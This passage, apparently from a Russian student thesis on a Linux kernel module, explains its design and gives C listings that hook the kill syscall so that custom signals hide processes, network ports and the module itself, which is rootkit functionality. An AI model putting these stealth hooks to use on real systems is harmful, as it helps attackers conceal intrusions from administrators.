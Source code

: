 \chapter{Технологический раздел}%
\label{cha:tekhnologicheskii_razdel}


\section{Выбор языка программирования и среды разработки}%
\label{sec:vybor_iazyka_programmirovaniia_i_sredy_razrabotki}

В качестве языка программирования был выбран язык C, так как при помощи этого языка написано большинство загружаемых модулей ОС Linux.

В качестве текстового редактора был выбран текстовый редактор VsCode.


\section{Взаимодействие с пользователем}
Взаимодействие с пространством пользователя происходит при помощи
механизма сигналов.

В листинге 3.1 представлены объявления используемых в программе
констант и типов. Здесь резервируются три определённых для пользователя
сигнала, определяется структура linux\_dirent.

\begin{lstlisting}[label=lst:a1, caption=Объявление констант и типов, language=c]
    enum {
        SIGINVISPROC = SIGUSR1, // 10
        SIGINVISPORT = SIGUSR2, // 12
        SIGMODHIDE   = SIGRTMIN  // 32
    };
    struct linux_dirent {
        unsigned long	d_ino;
        unsigned long	d_off;
        unsigned short	d_reclen;
        char		d_name[1];
    };
\end{lstlisting}

Функция для перехвата kill определена в листинге 3.2. Перехват функции
kill требуется для обработки новых заданных сигналов.

\begin{lstlisting}[label=lst:a2, caption=Перехват функции kill, language=c]
KHOOK_EXT(long , __x64_sys_kill , const struct pt_regs *);
static long khook___x64_sys_kill(const struct pt_regs *pt_regs) {
    struct task_struct *task;
    pid_t pid = (pid_t) pt_regs->di;
    int sig = (int) pt_regs->si;

    switch (sig) {
    case SIGINVISPROC :
        if (( task = find_task_struct (pid)))
            toggle_proc_invisability (task);
        else
            return ESRCH;
        break;
    case SIGINVISPORT :
        toggle_port_invisability (pid);
        break;
    case SIGMODHIDE :
        toggle_module_invisability ();
        break;
    default:
        KHOOK_ORIGIN(__x64_sys_kill , pt_regs);
    }
    
    return 0;
}
\end{lstlisting}

